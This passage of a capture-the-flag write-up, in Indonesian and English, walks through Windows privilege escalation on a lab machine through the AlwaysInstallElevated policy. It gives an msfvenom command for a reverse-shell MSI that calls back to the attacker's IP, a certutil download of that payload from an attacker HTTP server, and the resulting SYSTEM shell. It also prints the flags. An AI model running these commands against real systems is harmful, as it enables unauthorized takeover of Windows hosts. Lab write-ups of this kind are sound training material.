 ```powershell
type user.txt
deb6400895844694210ebdce77ff5457

```

## Privilege Escalation {#privesc}

<https://www.hackingarticles.in/windows-privilege-escalation-alwaysinstallelevated/>
thanks for the awesome articles dude!

setelah banyak cara saya lakukan untuk meng-ekskalasi, dan tidak juga menemukannya. finally i got another way alias bukan another sih memang it's too common to say another. pengecekan untuk **AlwaysInstalledElevated** ternyata sudah aktif.
```ps
C:\Users\Phoebe\Desktop>reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer  /v AlwaysInstallElevated

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1

```
0x1 yang berarti aktif dengan nilai dword / REG_WORD. haha. apa maksudnya? dimana Microsoft Windows Installer / Packages yang non-administrator secara langsung menggunakan elevated permissions (memerlukan izin yang tinggi) untuk instalasi sebauh program pada system. so basically it's too directly to gain the access.

mari kita buka **msfvenom**.
```c
arin@aoba ~ $ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.126 LPORT=8080 -f msi -o sharpicx.msi
```
lalu set up python HTTP Server dengan port 7000 pada local machine untuk diunggah menggunakan **cerutil**.
```c
C:\Users\Phoebe\Desktop>certutil -urlcache -split -f http://10.10.14.126:7000/sharpicx.msi
certutil -urlcache -split -f http://10.10.14.126:7000/sharpicx.msi
****  Online  ****
  000000  ...
  027000
CertUtil: -URLCache command completed successfully.
```
setelah selesai mari kita jalankan file berformat *msi* ini dengan **ncat** listener.
```c
C:\Users\Phoebe\Desktop>.\sharpicx.msi
.\sharpicx.msi

-----------------

arin@aoba ~/Desktop/htb/Love $ ncat -nvlp 8080Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::8080
Ncat: Listening on 0.0.0.0:8080
Ncat: Connection from 10.10.10.239.
Ncat: Connection from 10.10.10.239:50904.
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
whoami
nt authority\system

C:\WINDOWS\system32>type C:\Users\Administrator\Desktop\root.txt
type C:\Users\Administrator\Desktop\root.txt
807b1309e0311e6077684eef6b94e21d

```